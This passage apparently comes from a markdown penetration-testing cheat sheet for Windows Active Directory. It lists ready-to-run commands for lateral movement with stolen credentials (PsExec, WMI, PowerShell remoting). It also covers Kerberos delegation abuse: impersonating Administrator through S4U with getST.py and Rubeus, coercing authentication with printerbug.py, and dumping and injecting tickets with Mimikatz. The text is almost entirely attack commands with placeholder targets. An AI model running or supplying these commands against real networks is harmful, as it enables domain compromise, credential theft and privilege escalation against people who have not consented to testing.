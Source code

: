 #### **Windows:**
```powershell
# PsExec
PsExec.exe \\TARGET_IP -u domain\username -p password cmd

# WMI
wmic /node:TARGET_IP /user:domain\username /password:password process call create "cmd.exe"

# PowerShell Remoting
Enter-PSSession -ComputerName TARGET_IP -Credential domain\username
Invoke-Command -ComputerName TARGET_IP -Credential domain\username -ScriptBlock {whoami}
```

---

## 🔍 **Advanced Techniques**

### **1. Constrained Delegation**

#### **Linux:**
```bash
# Find delegation
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request-user TARGET_USER

# Exploit
getST.py -spn SERVICE/TARGET -impersonate Administrator domain.com/SERVICE_ACCOUNT:password
export KRB5CCNAME=Administrator.ccache
```

#### **Windows:**
```powershell
# Rubeus
.\Rubeus.exe s4u /user:SERVICE_ACCOUNT /rc4:HASH /impersonateuser:Administrator /msdsspn:SERVICE/TARGET /ptt
```

### **2. Unconstrained Delegation**

#### **Linux:**
```bash
# Monitor for tickets
python printerbug.py domain.com/username:password@TARGET_IP DC_IP
# Extract TGT from memory
```

#### **Windows:**
```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Mimikatz
sekurlsa::tickets /export
kerberos::ptt ticket.kirbi
```

